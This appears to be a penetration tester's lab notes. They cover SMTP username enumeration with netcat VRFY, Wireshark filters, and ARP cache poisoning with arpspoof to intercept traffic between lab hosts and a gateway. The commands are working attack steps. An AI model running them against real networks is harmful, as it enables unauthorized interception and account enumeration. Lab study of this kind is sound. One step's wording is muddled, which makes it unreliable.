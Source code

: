 Using Netcat to verify usernames on a mail server

```
nc 192.168.20.10 25
VRFY georgia
VRFY john

```

# Wireshark

```
wireshark
# wireshark filters:
ip.dst==192.168.20.10
#chain filters:
ip.dst==192.168.20.10 and ftp
```

# ARP Cache Poisoning

The idea is to insert our machine in the middle of two other machines communication. 

Example:

An Ubuntu target and Windows XP target are communicating with each other via FTP. To insert our machine in the middle we send:

1) send a fake ARP reply to Ubuntu saying we are the Windows XP machine. Now when Windows XP sends a packet intended for the Windows XP machine it will really send the packet to our machine.
2) send a fake ARP reply to Windows XP saying we are Ubuntu. Now when Ubuntu sends a packed intended for Windows XP it will really send the packet to our machine.
3)  We turn on IP forwarding on our machine so any packets that are sent to our machine and are not ours are sent out to the proper machine. This way both targets don't lose communication with each other.



![image-20250715165614992](/home/glenn/Documents/PenetrationTesting/screenshots/Screenshot from 2025-07-15 16-56-10.png)



```
wireshark # to capture traffic
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward # turn IP forwarding on
sudo arpspoof -i eth0 -t 192.168.20.11 192.168.20.10
sudo arpspoof -i eth0 -t 192.168.20.10 192.168.20.11
# now our attacking machine can monitor traffic between Ubuntu and Windowx XP machines
```

## Impersonating the Default Gateway

```
wireshark # to capture traffic
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward # turn IP forwarding on
sudo arpspoof -i eth0 -t 192.168.20.11 192.168.20.1
sudo arpspoof -i eth0 -t 192.168.20.1 192.168.20.11
# now our attacking machine can monitor traffic between Ubuntu and Windowx XP machines
```
